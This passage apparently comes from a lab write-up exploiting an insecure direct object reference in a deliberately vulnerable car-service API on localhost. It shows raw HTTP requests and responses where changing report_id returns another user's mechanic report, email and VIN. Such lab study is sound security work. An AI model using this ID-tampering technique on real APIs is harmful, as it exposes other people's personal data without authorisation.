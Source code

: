 ```http
      "user":{
         "email":"jhon@example.com",
         "number":""
      }
   },
   "vehicle":{
      "id":28,
      "vin":"7CCZG71CRZO653819",
      "owner":{
         "email":"test@test.com",
         "number":"0123456789"
      }
   },
   "problem_details":"Test",
   "status":"Pending",
   "created_on":"08 April, 2023, 13:56:49"
}
```
In this response,there are all the information about the user, his vehicle and the mechanics issue.
So, now if we change the "report_id", we retrieve the information about other users:
```http
GET /workshop/api/mechanic/mechanic_report?report_id=1 HTTP/1.1
Host: localhost:8888
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="104"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
And the response:
```http
HTTP/1.1 200 OK
Server: openresty/1.17.8.2
Date: Sat, 08 Apr 2023 14:11:53 GMT
Content-Type: application/json
Connection: close
Allow: GET, HEAD, OPTIONS
Vary: Origin, Cookie
X-Frame-Options: SAMEORIGIN
Content-Length: 454

{
   "id":1,
   "mechanic":{
      "id":2,
      "mechanic_code":"TRAC_JME",
      "user":{
         "email":"james@example.com",
         "number":""
      }
   },
   "vehicle":{
      "id":23,
      "vin":"2CORW83RZBD183647",
```